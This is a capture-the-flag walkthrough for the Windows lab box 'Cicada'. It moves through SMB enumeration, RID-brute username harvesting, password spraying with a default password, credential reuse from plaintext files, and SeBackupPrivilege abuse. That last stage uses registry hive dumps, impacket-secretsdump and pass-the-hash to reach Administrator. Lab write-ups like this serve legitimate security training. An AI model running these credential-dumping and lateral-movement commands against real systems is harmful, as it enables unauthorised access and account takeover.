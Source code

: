 # Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

![ping](Images/ping.png)


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC default scripts
-sV Version Scan
```

![nmap](Images/nmap.png)

This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```

![nxc](Images/nxc.png)

After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```

![HR](Images/HR.png)

We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine we can cat the file to read the contents. 

![HRContent](Images/HRContent.png)

Here we can see the default password that is provided to new hires.

Now we can use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```

![UserEnum](Images/UserEnum.png)

Clean up the output so that only the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![UserEnumPwd](Images/UserEnumPwd.png)

We can see that the password worked for the user michael.wrightson.
Next we can check what access Michael has to the available SMB shares.

```
smbmap -H <target IP> -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![smbMap](Images/smbMap.png)


Checking the READ ONLY shares we dont find anything of use.
Next we can try enum4linux to try enumerate more information. Reference: https://github.com/CiscoCXSecurity/enum4linux

```
enum4linux  -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' <target IP>
```
![enum4](Images/enum4.png)

Luckily, a user has left his password in his account details.
We can try smbmap again with the new credentials.

```
smbmap -H <target IP> 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```
Now we can see that we have access to the DEV share.

![smbMap2](Images/smbMap2.png)

Access the DEV share using smbclient.

```
smbclient //<target IP>/DEV -U 'david.orelious'
```

![smbClient2](Images/smbClient2.png)

We can get the file Backup_script.ps1 and then read it locally on our attacking machine.
The script contains another set of credentials in plaintext.

![backupScript](Images/backupScript.png)

## User Flag
Try and use evil-winrm with the new user credentials. This works and we can find the flag on the users desktop.

```
evil-winrm -i <target IP> -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![userFlag](Images/userFlag.png)

## Privilege Escalation and Root Flag
We can enumerate the current privileges of the logged in user using the below commnad.
```
whoami /priv
```

![regSave](Images/regSave.png)

We see that SeBackupPrivilege is Enabled. This can be used to escalate our privileges. Reference: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

```
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```

Then, we can use impack-secretsdump to dump the sam hashes. With this we can use evil-winrm to pass the hash and connect as Local Admin.
From here, navigate to the Desktop to retrieve the root flag.

```
impacket-secretsdump LOCAL -system system -sam sam
evil-winrm -i <target IP> -u 'Administrator' -H '<hash>'
```

![adminHash](Images/adminHash.png)

Congratulations Cicada has been successfully Pwned!

![pwned](Images/pwned.png)
